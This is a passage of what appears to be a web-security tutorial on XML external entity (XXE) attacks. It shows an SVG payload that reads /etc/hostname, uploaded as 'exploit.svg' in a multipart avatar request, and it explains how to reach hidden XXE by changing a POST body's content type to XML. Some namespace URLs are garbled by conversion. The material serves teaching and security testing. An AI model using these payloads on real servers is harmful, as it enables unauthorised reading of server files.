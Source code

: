 ```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test \\[ <!ENTITY xxe SYSTEM "file:///etc/hostname" > \\]><svg w
idth="128px" height="128px" xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>" vers
ion="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

```

**request looks like this**

```
Content-Disposition: form-data; name="avatar"; filename="exploit.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?><!DOCTYPE root [<!ENTITY dk SYSTEM "file:///etc/hostname"> ]><svg width="128px" height="128px" xmlns="<http://www.w3.org>./2000/svg" xmlns:xlink="<http://www.w3.org/1999/Xlink>" version="1.1"><text font-size="16" x="0" y="16">&dk;</text></svg>

```

## XXE via Modified Content Type

- most `POST` request use a default content-type that has generated by HTML Forms such as `application/x-www-form-urlencoded`
- some server expect to receive request in this format but this format will be tolerate other content types, including XML

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

parameter=value

```

we will tolerate this request and convert this content type into XML

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 63 {here we need to put length of our payload i.e charector length of xml DTD}

<?xml version="1.0" encoding="UTF-8"?><parameter>value</parameter>

```

- if application tolerates request containing XML in the message Body and parse the body content as XML, then you reach the `hidden XXE` attack surface simply by reformating request to use the XML format.

# How to find and test for XXE vulnerability
